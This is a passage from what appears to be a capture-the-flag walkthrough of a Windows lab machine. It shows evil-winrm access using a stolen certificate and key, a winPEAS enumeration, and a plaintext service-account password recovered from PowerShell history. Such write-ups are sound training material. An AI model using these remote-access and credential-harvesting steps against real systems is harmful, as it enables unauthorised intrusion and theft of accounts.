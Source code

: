 * `-S` - Enable SSL, because I’m connecting to 5986;
* `-c` legacyy_dev_auth.crt - provide the public key certificate
* `-k` legacyy_dev_auth.key - provide the private key

```bash
evil-winrm -i 10.10.11.152 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crtdir

*Evil-WinRM* PS C:\Users\legacyy\Desktop> dir


    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/15/2024  11:30 AM             34 user.txt
```

# Root Flag

## Windows Privilege Escalation 

The file `winPEASx64.exe` is deleted by AV and bloodhound requires credentials but using `winPEAS.bat`, I can see reference made to `ConsoleHost_history.txt`:

```bash
PS default transcript history

Checking PS history file
 Volume in drive C has no label.
 Volume Serial Number is 22CC-AE66

 Directory of C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

03/04/2022  12:46 AM               434 ConsoleHost_history.txt
               1 File(s)            434 bytes
               0 Dir(s)   5,471,080,448 bytes free
```

The `ConsoleHost_history.txt` file contains commands run by the user we are connected as:

```powershell
story.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
